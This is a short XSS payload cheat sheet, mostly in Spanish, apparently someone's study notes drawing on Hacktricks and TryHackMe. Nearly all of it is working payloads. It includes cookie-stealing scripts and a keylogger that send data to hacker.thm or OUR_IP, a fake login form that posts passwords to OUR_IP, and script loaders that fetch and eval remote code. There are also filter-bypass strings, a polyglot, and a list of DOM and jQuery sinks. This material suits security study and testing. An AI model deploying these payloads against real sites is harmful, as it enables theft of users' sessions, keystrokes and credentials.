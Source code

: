 ### Hacktricks:

    <img src=x onerror=alert(PAYLOAD)>

#### steal cookie:

A


    <script>fetch('http://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
B

    document.location='http://OUR_IP/index.php?c='+document.cookie;
C

    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
D

    new Audio().src='http://OUR_IP/index.php?c='+document.cookie;



#### keylogger
        <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


#### Quebrar un código JS que recibe el imput
        ';alert('THM');//

#### No HTML inject and script clean:
        <sSCRIPTcript> </sSCRIPTcript>

#### Polyglots:

        jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('porota') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('porota')//>\x3e

#### Probar si se conecta a otro servidor:
A

        <script src=http://OUR_IP></script>
B

        '><script src=http://OUR_IP></script>
C

        "><script src=http://OUR_IP></script>
D

        javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
E

        <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
F

        <script>$.getScript("http://OUR_IP")</script>


#### Fake form

        document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');


#### DOM XSS

Las dom based no hacen transacciones con el back-end, quedan enteramente del lado del cliente. Una buena forma de probarlas es ver si un input que se muestra en la pantalla
no genera una request.

##### armado de payloads:
stored DOM xss:


        <><img src=1 onerror=alert(1)>

window.location = nos permite construir un link para redireccionar a la victima a un sitio vulnerable.
innerHTML = permite agrergar un elemento al DOM, no permite agrergar scripts directamente ni svgs, pero podemos utilizar una etiqueta html para ingresar js como:<img src=1 onerror=alert(document.domain)>
eval()= 

#### DOM Y JQUERY
attr()=permite modificar un elemento del dom. Podríamos aprovecharnos con un codigo como este: javascript:alert(document.domain)

$(): función selectora, nos permite inyectar objetos en el DOM. Podemos explotarlo creando un Iframe 

        <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">


Sinks más comunes para dom xss:
document.write()

document.writeln()

document.domain

element.innerHTML

element.outerHTML

element.insertAdjacentHTML

element.onevent


jquery:

add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()








